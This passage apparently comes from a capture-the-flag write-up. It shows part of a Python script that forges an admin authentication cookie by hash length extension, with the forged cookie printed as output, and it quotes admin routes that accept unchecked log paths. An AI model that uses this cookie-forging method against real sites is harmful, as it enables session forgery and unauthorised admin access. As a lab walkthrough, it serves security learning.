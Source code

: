 ```python
    hash = unhexlify(sha.hexdigest())    # gets fake signature
    cookie = 'auth=%s.%s' % (b64encode(extension) , b64encode(hash))    # puts them together into a usable cookie

    req = urllib2.Request(url)

    req.add_header("Cookie", cookie)

    try:
        response = urllib2.urlopen(req)
        print(cookie)    # if we successfully made the request, the cookie was valid
        exit()
    except:
        pass
```

This script basically brute forces the length, and prints the cookie if it works. Running the script:

```text
$ ./cookie.py
auth=dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAxg7dXNlcm5hbWU9YWRtaW47c2VjcmV0PWYxZmMxMjAxMGMwOTQwMTZkZWY3OTFlMTQzNWRkZmRjYWVjY2Y4MjUwZTM2NjMwYzBiYzkzMjg1YzI5NzExMDU7.Uo1e9uzmx1WjBbtdDFbO6PwIy/u3xg2HTdjZu0haeAU=
```

We get our admin cookie! Let's check this works:

![](../../.gitbook/assets/intense_welcome_admin.png)

Bingo!

### Admin

Now that we're admin, let's see what we can do. We don't seem to have any visible options on the site, so we'll have another look at the source code, in `admin.py`, as that seems most logical.

We find two interesting functions:

```python
@admin.route("/admin/log/view", methods=["POST"])
def view_log():
    if not is_admin(request):
        abort(403)
    logfile = request.form.get("logfile")
    if logfile:
        logcontent = admin_view_log(logfile)
        return logcontent
    return ''


@admin.route("/admin/log/dir", methods=["POST"])
def list_log():
    if not is_admin(request):
        abort(403)
    logdir = request.form.get("logdir")
    if logdir:
        logdir = admin_list_log(logdir)
        return str(logdir)
    return ''
```